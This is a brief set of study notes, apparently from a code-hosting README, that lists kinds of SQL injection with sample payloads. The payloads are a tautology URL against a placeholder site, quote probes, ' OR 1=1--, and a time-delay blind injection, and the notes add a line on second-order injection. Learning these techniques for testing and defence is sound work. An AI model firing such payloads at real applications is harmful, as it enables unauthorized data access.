 # Examples of SQL Injection

* Retrieving hidden data
* Subverting application logic
* UNION attacks
* Examining the database
* Blind SQL injection

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
This results in the SQL query:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`


`'
`ASCII(97)
``' OR 1=1--
`'; waitfor delay ('0:0:20')--

In **WHERE**, **UPDATE**, **INSERT**, **SELECT** and in **ORDER BY**

# Second order SQL Injection
Store input in database, this stored data is trusted at process time.


